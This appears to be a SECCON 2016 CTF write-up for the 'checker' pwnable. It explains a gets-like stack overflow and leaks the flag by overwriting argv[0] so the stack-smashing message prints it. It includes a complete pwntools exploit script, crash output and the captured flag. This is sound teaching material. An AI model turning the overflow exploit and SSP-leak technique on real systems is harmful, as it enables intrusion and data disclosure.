 ```yaml
---
title: SECCON CTF 2016 -- checker
tags:
  - SECCON
  - CTF
  - BOF
  - Pwnable
  - Python
categories:
  - write-ups
date: 2016-12-12 08:02:00
---
```

**Category:** Exploit
**Points:** 300

<!-- more -->  

64 bit ELF with Full RELRO, stack canary, NX enabled, No PIE.  

A quick run of the program: 
```
$ ./checker 
Hello! What is your name?
NAME : 123

Do you know flag?
>> 123

Do you know flag?
>> yes

Oh, Really??
Please tell me the flag!
FLAG : asdf
You are a liar...
```

By reversing the binary, we found that the program use a function named `getaline()` to read the user input. 
```c getaline
while ( buf && read(0, &buf, 1uLL) )
{
    if ( buf == 10 )
        buf = 0;
    *(_BYTE *)(a1 + (signed int)v4++) = buf; // a1 = input buffer
}
```
We can see that the `getaline()` function is just like `gets()` in `stdio.h`, so the program itself has multiple stack overflow vulnerabilities.   

```
$ ./checker
Hello! What is your name?
NAME : 123

Do you know flag?
>> yes

Oh, Really??
Please tell me the flag!
FLAG : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You are a liar...
*** stack smashing detected ***: ./checker terminated
[1]    70548 abort      ./checker
```

Although we can easily overwrite the return address, however the program has the stack smashing protector (SSP) enabled. Luckliy, the program will read the flag's content and stored it into a buffer which lies in the `.bss` section before entering the main function. So, we can try to **overwrite the content of `argv[0]` ( which stores a `char*` pointer of the program file path ) into the flag buffer's address**. Then, we smash the stack and trigger the SSP, which will then output the following error message: 
```
*** stack smashing detected ***: [flag content] terminated
```

Notice that the original content of `argv[0]` stores a 6 bytes memory address, while the flag's buffer address is 3 bytes (`0x6010c0`). So we'll have to null out the `argv[0]` first before we change it into `0x6010c0`, or else it will crash the program before it was able to output the error message.  
```python exp_checker.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "checker.pwn.seccon.jp"
PORT = 14726
ELF_PATH = "./checker"
LIBC_PATH = ""

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
#libc = ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)


if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    pad = 0x178

    r.sendlineafter(": ", "aaaa")
    
    # null out argv[0]
    for i in xrange(8,-1,-1):
        payload = "A"*pad + "B"*i
        r.sendlineafter(">> ", payload)
    
    r.sendlineafter(">> ", "yes")

    # overwrite argv[0] to flag buffer
    payload = "A"*pad + p64(0x6010c0)
    
    r.sendlineafter(": ", payload)
    r.interactive()
    
```

Although the exploit works on the local machine, it failed to work on the remote side. I sent the payload for like a hundred times and it just won't give me the flag. It really frustrated me at that moment because I was so close to capture the flag and the contest is about to end in 5 minutes......  

But there's nothing more I can do, so I just keep sending the same payload again and again, hoping that  it will work at the end of the contest. And then, something amazing happened...
```
[+] Opening connection to checker.pwn.seccon.jp on port 14726: Done
You are a liar...
*** stack smashing detected ***: SECCON{y0u_c4n'7_g37_4_5h3ll,H4h4h4} terminated
[*] Got EOF while reading in interactive
```

lol WTF ? 

I still don't know why it will work at the very end of the contest until now ! I mean it's the same payload ! How is this even possible ? Anyway I managed to submit the flag right before the end of the contest and get the damn 300 points ... What an end @_@!  

flag: `SECCON{y0u_c4n'7_g37_4_5h3ll,H4h4h4}`